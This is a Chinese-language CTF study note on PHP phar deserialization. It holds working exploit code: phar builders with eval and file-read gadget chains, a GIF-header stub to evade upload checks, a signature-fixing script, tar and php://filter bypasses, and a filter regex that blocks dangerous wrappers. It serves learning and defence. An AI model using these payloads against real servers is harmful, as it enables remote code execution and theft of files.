


## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file、
file_exists、copy、unlink

phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```


## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
//$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
//$phar->setStub(file_get_contents('a.png')."<?php __HALT_COMPILER(); ?>"); //防止检测也可以直接加一个小图片在前面

$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。
如果是触发读文件需要有回显，如echo


^
## **绕过**
### **绕过_wakeup方法**
```
phar生成后
文件中修改 属性数>原
重新签名
```
#### 重新签名
<https://exp10it.io/2022/08/phar-signature-fix-and-bypass/>


在修改了 phar 数据后, 我们需要更改的就是这部分 (20字节长度) 的内容


Python 脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)
```

注意计算 SHA1 的时候要使用 `.digest()` 而不是 `.hexdigest()`, 因为文件本身保存的签名是二进制格式的

其它签名算法同理, 就是切片的长度不一样 (不过一般也不怎么用到)
#### 使用 tar 绕过签名

<https://www.anquanke.com/post/id/240007>

在看这篇文章的时候发现 phar 协议对 tar 的处理跟 gzip bzip2 这些不太一样

对 gzip bzip2 处理时, PHP 会将其解压缩, 然后解析里面的 phar 文件

而对 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会将 .metadata 里的内容**直接进行反序列化**

测试代码

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }
    function __wakeup(){
        $this->text = 'fail';
    }
}

file_get_contents($_GET['a']);
?>
``` 

本地创建 .phar 文件夹和 .metadata 文件

```bash
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ ls -a
.metadata
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ cat .metadata
O:1:"A":2:{s:4:"text";s:7:"success";}
``` 

tar 压缩, **必须是 Linux 环境**

```
tar -cf phar.tar .phar/
``` 

访问 `index.php?a=phar://phar.tar`

这种方法直接扔掉了 phar 的签名, 修改数据时根本不用担心签名的问题, 也就不存在 “修复签名” 的说法


^
### **绕过phar开头过滤**
```
php://filter/read=convert.base64-encode/resource=phar://upload/ecb4cc1c535498077df715dc9085153f.jpg    
```

```
(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\\s)\*|(.|\\\s)\*(file|data|\\.\\.)(.|\\\s)\*/i',$filepath))
```